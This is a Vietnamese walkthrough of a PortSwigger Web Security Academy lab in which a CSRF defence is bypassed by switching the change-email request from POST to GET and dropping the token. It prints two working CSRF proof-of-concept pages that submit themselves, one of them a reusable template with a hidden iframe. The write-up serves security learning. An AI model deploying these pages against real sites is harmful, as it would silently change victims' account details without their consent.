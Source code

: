 # CSRF where token validation depends on request method

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên chúng ta sẽ đăng nhập vào tài khoản `wiener:peter` rồi bắt request khi thay đổi email của tài khoản đó bằng 1 tên mail bất kì.

![image](https://user-images.githubusercontent.com/72268643/157420159-49cbcf32-6f40-43c9-9db1-59bfa0cc807a.png)

Sau khi gửi đến `Repeater` ta thấy được rằng chúng ta sử dụng method POST cùng với có CSRF token.

![image](https://user-images.githubusercontent.com/72268643/157420436-5401ef76-9aa1-40b0-beec-967bd75f3f7e.png)

Để làm được bài này, ta sẽ thay đổi phương thức request (method) từ POST sang GET (vì GET thường được dùng trong các phương thức tìm kiếm nên thường không dùng token để xác thực nên có thể dùng để gửi dữ liệu lên ứng dụng web mà không cần CSRF token) sau đó gửi trả request đó để xem phản hồi. 

![image](https://user-images.githubusercontent.com/72268643/157420976-10f3f131-ea35-4460-a200-a843a52699e2.png)

Trang web vẫn phản hồi dù cho chúng ta vẫn thêm param `csrf` trên URL. Bây giờ ta sẽ xóa param `csrf` đi và gửi lại request.

![image](https://user-images.githubusercontent.com/72268643/157423147-d2fe23d0-1bd7-4289-baeb-05069f345d97.png)

Trang web trả kết quả tìm thấy, và nếu Follow Response đó ta sẽ được kết quả là email đã được đổi tên.

![image](https://user-images.githubusercontent.com/72268643/157423546-faa5afee-6784-4b50-aa07-b60b0d649ee9.png)

Vậy kết luận lại để làm được lab này, ta cần đổi request method sau đó Generate CSRF PoC.

![image](https://user-images.githubusercontent.com/72268643/157424034-76a72fa0-d952-41fb-8546-020158b4fe48.png)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac1f1f181e57a2f1c0d008f6004800b2.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="victim&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit(); <!-- Phần tự submit -->
    </script>
  </body>
</html>
```

Hoặc tự viết PoC theo form sau (Nhớ đổi sang method GET nhé):

```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị-->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="nơi_khai_thác_CSRF_ở_trên_trang_web_đó" method="GET" id="csrf-form">
      <input type="hidden" name="email" value="email_mà_bạn_muốn_đổi">
    </form>

    <script>document.getElementById("csrf-form").submit()</script> <!-- Phần tự submit form thực thi -->
  </body>
</html>
```
 
Copy đoạn HTML đó để gửi lên phía server để thực thi.

![image](https://user-images.githubusercontent.com/72268643/157425056-859ae19b-251e-4cc7-9efe-0f69fa2571fd.png)

Store vào hoàn thành lab.
